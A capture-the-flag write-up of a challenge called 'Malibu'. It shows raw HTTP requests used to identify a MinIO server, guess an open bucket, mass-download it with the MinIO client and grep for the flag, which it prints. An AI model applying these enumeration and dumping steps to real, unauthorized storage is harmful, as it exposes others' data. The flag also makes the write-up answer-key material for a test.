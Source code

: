 ## Malibu
Well probably could've done this much faster had I avoided the age old over-complication. Anyways, we are given a hint before starting up the challenge:
`What do you bring to the beach?`
Following the instructions, we connect with the given `nc challenge.ctf.games PORT`. After hitting enter we see:
```html
HTTP/1.1 400 Bad Request
Content-Type: text/plain; charset=utf-8
Connection: close

400 Bad Request   
```
Seems it is expecting requests. Let's try a simple GET request to see where we are.
```html
GET / HTTP/1.1
Host: challenge.ctf.games
```
It returns this:
```html
HTTP/1.1 403 Forbidden
Accept-Ranges: bytes
Content-Length: 254
Content-Type: application/xml
Server: MinIO
*snip*
```
Which actually tells us exactly what we need to know. 
**Server: MinIO**
Minio is for s3 Amazon cloud server stuff.
https://github.com/minio/minio

Well any digging into 'Amazon s3' will reveal they use `buckets`. Saving you the headache, this is what they meant in the riddle, something you might bring to the beach. Where I am from, that would be a *pail*, but whatever. Let's try `/bucket`.
```html
GET /bucket HTTP/1.1
Host: challenge.ctf.games

HTTP/1.1 200 OK
Accept-Ranges: bytes
Content-Length: 31114
Content-Type: application/xml
Server: MinIO
Strict-Transport-Security: max-age=31536000; includeSubDomains
Vary: Origin
Vary: Accept-Encoding
X-Amz-Id-2: dd9025bab4ad464b049177c95eb6ebf374d3b3fd1af9251148b658df7ac2e3e8
X-Amz-Request-Id: 17FB69A878A102DE
X-Content-Type-Options: nosniff
X-Ratelimit-Limit: 59
X-Ratelimit-Remaining: 58
X-Xss-Protection: 1; mode=block
Date: Sat, 05 Oct 2024 01:17:34 GMT

<?xml version="1.0" encoding="UTF-8"?>
<ListBucketResult xmlns="http://s3.amazonaws.com/doc/2006-03-01/"><Name>bucket</Name><Prefix></Prefix><Marker></Marker><MaxKeys>1000</MaxKeys>
*snip*
```
Nice! The output is way too long to post here. But **200 OK** means we have access to this without credentials. Now I have experience using the minio cli from HTB, although within `/bucket` there was a cli to download.

I installed minioCLI like so:
```sh
wget https://dl.min.io/client/mc/release/linux-amd64/mc
chmod +x mc
sudo mv mc /usr/local/bin/
```
Then added this bucket into the CLI with this:
```sh
mc alias set myminio http://challenge.ctf.games:PORT
Enter Access Key: <blank>
Enter Secret Key: <blank>

Added `myminio` successfully.
```
Then used this command to dump everything onto my kali machine for analysis.
```sh
mc cp --recursive myminio/bucket .                   
...PSFCImJog: 249.31 KiB / 249.31 KiB ┃▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓┃ 69.58 KiB/s 3s
```
Now we have a new directory '**bucket**' created locally. These folders have randomly generated names, so by using grep to search for 'flag{' we can search all of them quickly.
```sh
$ grep -r "flag{" .

*snip*
flag{800e6603e86fe0a68875d3335e0daf81}
*snip*
```
